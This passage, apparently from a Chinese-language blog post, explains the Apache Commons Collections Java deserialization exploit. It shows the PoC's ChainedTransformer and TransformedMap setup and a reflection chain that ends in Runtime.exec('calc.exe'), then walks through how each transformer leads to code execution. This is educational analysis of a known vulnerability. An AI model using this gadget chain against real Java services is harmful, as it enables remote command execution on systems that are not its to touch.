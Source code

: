                 }
            }
        }

这段代码就是Commons Collections的核心的，本质上就是调用了参数input对应的类型的任意method方法，iMethodName、iParamTypes以及iArgs是InvokerTransformer在构造时候提供的参数。

回到PoC，其中我们使用了ChainedTransformer，代码如下：

            Transformer chain = new ChainedTransformer(transformers);
            Map innerMap = new HashMap();
            innerMap.put("value","test");
            Map outerMap = TransformedMap.decorate(innerMap, null, chain);

ChainedTransformer的transform实现如下：

        public Object transform(Object object) {
            for(int i = 0; i < this.iTransformers.length; ++i) {
                object = this.iTransformers[i].transform(object);
            }

            return object;
        }

其本质是将iTransformers（通过构造ChainedTransformer指定）逐个调用transform，前一个的返回结果作为后一个的参数。结合transformers的定义：

            Transformer[] transformers = {
                    new ConstantTransformer(Runtime.class),
                    new InvokerTransformer("getMethod",new Class[]{String.class, Class[].class}, new Object[]{"getRuntime",null}),
                    new InvokerTransformer("invoke",new Class[]{Object.class, Object[].class}, new Class[]{Runtime.class, null}),
                    new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc.exe"})
            };

ConstantTransformer的transform仅为返回参数对应的Object，对于使用transformers来进行装饰的map，其transform的过程如下：

1. Runtime.class表示class Runtime，第一个链返回自身
2. Runtime.class本身是一个class Class的实例，并且Class是由getMethod方法的，所以在第一个InvokerTransformer会中在Runtime.class上调用getMethod参数设置为getRuntime，这样，获得了一个Method对象(getRuntime)
3. 在第二个InvokerTransformer会调用getRuntime这个Method的invoke方法，这样返回了一个Runtime对象
4. 在第三个InvokerTransformer会调用Runtime的exec函数，并且传递参数calc.exe，这样就达到了执行代码的目的。

这个过程本质上如图所示。

            Object obj0  = Runtime.class;
            Class cls1 = obj0.getClass();
            Method method1 = cls1.getMethod("getMethod", new Class[]{String.class, Class[].class});
            Object obj1 = method1.invoke(obj0, "getRuntime", new Class[0]);

            Class cls2 = obj1.getClass();
            Method method2 = cls2.getMethod("invoke", new Class[]{Object.class, Object[].class});
            Object obj2 = method2.invoke( obj1, null, new Object[0]);

            Class cls3 = obj2.getClass();
            Method method3 = cls3.getMethod("exec", new Class[]{String.class});
            Object obj3 = method3.invoke(obj2, "calc.exe");
